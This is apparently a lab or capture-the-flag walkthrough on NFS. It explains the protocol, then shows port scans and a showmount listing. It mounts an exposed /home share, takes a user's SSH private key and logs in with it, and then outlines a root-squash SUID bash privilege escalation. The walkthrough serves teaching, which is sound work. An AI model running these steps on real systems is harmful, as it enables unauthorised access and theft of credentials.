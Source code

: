 Understanding NFS  
What is NFS?  
  
NFS stands for "Network File System" and allows a system to share directories and files with others over a network. By using NFS, users and programs can access files on remote systems almost as if they were local files. It does this by mounting all, or a portion of a file system on a server. The portion of the file system that is mounted can be accessed by clients with whatever privileges are assigned to each file.  
  
How does NFS work?  
  
Computer network - Vector stencils library | Computers ...  
  
We don't need to understand the technical exchange in too much detail to be able to exploit NFS effectively- however if this is something that interests you, I would recommend this resource: [https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html](https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html)  
  
First, the client will request to mount a directory from a remote host on a local directory just the same way it can mount a physical device. The mount service will then act to connect to the relevant mount daemon using RPC.  
  
The server checks if the user has permission to mount whatever directory has been requested. It will then return a file handle which uniquely identifies each file and directory that is on the server.  
  
If someone wants to access a file using NFS, an RPC call is placed to NFSD (the NFS daemon) on the server. This call takes parameters such as:  
  
The file handle  
The name of the file to be accessed  
The user's, user ID  
The user's group ID  
  
These are used in determining access rights to the specified file. This is what controls user permissions, I.E read and write of files.  
  
What runs NFS?  
  
Using the NFS protocol, you can transfer files between computers running Windows and other non-Windows operating systems, such as Linux, MacOS or UNIX.  
  
A computer running Windows Server can act as an NFS file server for other non-Windows client computers. Likewise, NFS allows a Windows-based computer running Windows Server to access files stored on a non-Windows NFS server.  
  
More Information:  
  
Here are some resources that explain the technical implementation, and working of, NFS in more detail than I have covered here.  
  
[https://www.datto.com/library/what-is-nfs-file-share](https://www.datto.com/library/what-is-nfs-file-share)  
  
[http://nfs.sourceforge.net/](http://nfs.sourceforge.net/)  
  
[https://wiki.archlinux.org/index.php/NFS](https://wiki.archlinux.org/index.php/NFS)  
  
Enumerating NFS  
$ nmap -A -p- <IP>  
Discovered open port 111/tcp on 10.10.212.47  
Discovered open port 22/tcp on 10.10.212.47  
Discovered open port 40979/tcp on 10.10.212.47  
Discovered open port 2049/tcp on 10.10.212.47  
Discovered open port 56897/tcp on 10.10.212.47  
Discovered open port 38159/tcp on 10.10.212.47  
Discovered open port 44707/tcp on 10.10.212.47  
  
$ rustscan -i <IP>  
.----. .-. .-. .----..---. .----. .---. .--. .-. .-.  
| {} }| { } |{ {__ {_ _}{ {__ / ___} / {} \ | `| |  
| .-. \| {_} |.-._} } | | .-._} }\ }/ /\ \| |\ |  
`-' `-'`-----'`----' `-' `----' `---' `-' `-'`-' `-'  
The Modern Day Port Scanner.  
________________________________________  
: [https://discord.gg/GFrQsGy](https://discord.gg/GFrQsGy) :  
: [https://github.com/RustScan/RustScan](https://github.com/RustScan/RustScan) :  
--------------------------------------  
Real hackers hack time ⌛  
  
[~] The config file is expected to be at "/home/kali/.rustscan.toml"  
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers  
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'.  
Open 10.10.76.50:22  
Open 10.10.76.50:111  
Open 10.10.76.50:2049  
Open 10.10.76.50:37889  
Open 10.10.76.50:38113  
Open 10.10.76.50:39607  
Open 10.10.76.50:45317  
[~] Starting Script(s)  
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")  
  
[~] Starting Nmap 7.91 ( [https://nmap.org](https://nmap.org) ) at 2021-11-26 10:47 EST  
Initiating Ping Scan at 10:47  
Scanning 10.10.76.50 [2 ports]  
Completed Ping Scan at 10:47, 0.10s elapsed (1 total hosts)  
Initiating Parallel DNS resolution of 1 host. at 10:47  
Completed Parallel DNS resolution of 1 host. at 10:47, 0.03s elapsed  
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]  
Initiating Connect Scan at 10:47  
Scanning 10.10.76.50 [7 ports]  
Discovered open port 111/tcp on 10.10.76.50  
Discovered open port 22/tcp on 10.10.76.50  
Discovered open port 2049/tcp on 10.10.76.50  
Discovered open port 39607/tcp on 10.10.76.50  
Discovered open port 37889/tcp on 10.10.76.50  
Discovered open port 38113/tcp on 10.10.76.50  
Discovered open port 45317/tcp on 10.10.76.50  
Completed Connect Scan at 10:47, 0.10s elapsed (7 total ports)  
Nmap scan report for 10.10.76.50  
Host is up, received conn-refused (0.100s latency).  
Scanned at 2021-11-26 10:47:36 EST for 1s  
  
PORT STATE SERVICE REASON  
22/tcp open ssh syn-ack  
111/tcp open rpcbind syn-ack  
2049/tcp open nfs syn-ack  
37889/tcp open unknown syn-ack  
38113/tcp open unknown syn-ack  
39607/tcp open unknown syn-ack  
45317/tcp open unknown syn-ack  
  
Read data files from: /usr/bin/../share/nmap  
Nmap done: 1 IP address (1 host up) scanned in 0.33 seconds  
  
command to list NFS shares - /home is the visible share  
$ /usr/sbin/showmount -e 10.10.76.50  
Export list for 10.10.76.50:  
/home *  
  
use mount command to mount NFS share to local machine  
$ sudo mount -t nfs 10.10.76.50:home /tmp/mount/ -nolock  
  
change directory to where you mounted the share. what is the name of the folder?  
cappucino  
  
ls folders inside  
open .ssh  
id_rsa - key that can be used with ssh to acces IP without password  
  
copy id_rsa to a different folder  
$ cp id_rsa /tmp/  
  
Chmod 600 (chmod a+rwx,u-x,g-rwx,o-rwx) sets permissions so that, (U)ser / owner can read, can write and can't execute. (G)roup can't read, can't write and can't execute. (O)thers can't read, can't write and can't execute.  
$ chmod 600 id_rsa  
  
ssh into IP  
$ ssh -i id_rsa cappucino@10.10.76.50  
  
Exploiting NFS  
  
NFS Access ->  
Gain Low Privilege Shell ->  
Upload Bash Executable to the NFS share ->  
Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->  
Login through SSH ->  
Execute SUID Bit Bash Executable ->  
ROOT ACCESS  
  
The Executable  
  
Due to compatibility reasons, we'll use a standard Ubuntu Server 18.04 bash executable, the same as the server's- as we know from our nmap scan. You can download it here- [https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash](https://github.com/polo-sec/writing/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash)